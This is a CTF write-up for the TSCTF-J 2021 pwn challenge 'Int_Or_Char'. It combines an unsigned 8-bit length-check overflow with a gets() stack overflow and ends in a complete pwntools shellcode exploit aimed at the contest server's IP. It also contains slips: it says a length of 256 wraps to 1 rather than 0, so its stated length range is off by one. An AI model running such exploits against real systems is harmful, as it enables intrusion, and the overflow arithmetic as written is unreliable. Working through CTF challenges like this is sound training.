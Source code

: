 ```yaml
---
title: "TSCTF-J_2021 Pwn - Int_Or_Char WriteUp"
date: 2021-10-30
tags: ["TSCTF-J_2021", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## Problem

### Preliminary Determination of Ideas

Using `checksec` to check the file, it is found that NX and PIE are not enabled, so consider ret2text and ret2shellcode preliminarily.

![checksec](https://oss.nova.gal/img/image-20211025175327904.png)

<!--truncate-->

### Code Analysis

Let's jump directly to the `pwn()` function.

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

Noticing that `gets(s)` does not limit the length, a stack overflow could be exploited here.

Moving to the `check(v2, s)` function.

```c
char *__cdecl check(int a1, char *src)
{
  if ((unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u)
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

Here, we are required to have a length `a1 > 3 && a1 <= 8`. If so, we cannot construct the desired payload. In this case, we can refer to the write-up of [Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1) from Attacking & Defending World, which mentions an **integer overflow vulnerability**.

> A simple example in C language:
>
> For a `2-byte unsigned short int variable`, when its data length exceeds 2 bytes, it will overflow, and only the last two bytes of data will be used.
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257;
> if (var1 == var2)
> {
> printf("overflow");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> overflow
> ```

Returning to our problem, our `v2` is an `unsigned __int8` variable, meaning its value range is from `0 to 255`. If we pass a data length of _256_, the value of `v2` actually becomes _1_ (255 + 1), so the length we pass can be from _(255+4)_ to _(255+8)_, which is _259-263_ characters.

With the character length check bypassed, what should we do next to exploit this vulnerability?

```c
char *strcpy(char *dest, const char *src);
```

This is the prototype of `strcpy`, which means the content of `src` will be copied to the address of `dest`, that is, the location of `passwd_buf` in the problem.

We take a look at the stack here.

[Mark's explanation](https://oss.nova.gal/img/image-20211025192651649.png) from the image reveals that due to NX not being enabled, our buffer is **executable**, giving us the condition to use a `shellcode`. As we do not have any system call functions in place, we must craft our own shellcode.

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # Specify the target as a 32-bit system

shellcode = asm(shellcraft.sh()) # Generate shellcode
buf_addr = 0x804A060 # Address of buf

payload = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # Align shellcode to the bottom of the stack, add 4 bytes of data to overwrite rbp, then add p32(buf_addr) to jump to buf_addr for execution, which is our shellcode
payload = payload + b'A'*(262-len(payload)) # Pad the payload to exploit the integer overflow vulnerability

p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payload)
p.interactive()
# At this point, the shell is obtained, and the subsequent steps are self-explanatory
```

> The server had already been shutdown before the writing of this WriteUp, so the post-shell-taking process could not be demonstrated.

### Personal Summary

Though the implementation of the integer overflow was relatively quick, it took quite a while to figure out how to run the shellcode (due to the need to overwrite rbp after reaching the bottom of the stack, which I completely didn't understand before).

Pwn is indeed fascinating.

## References

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark

<!-- AI -->
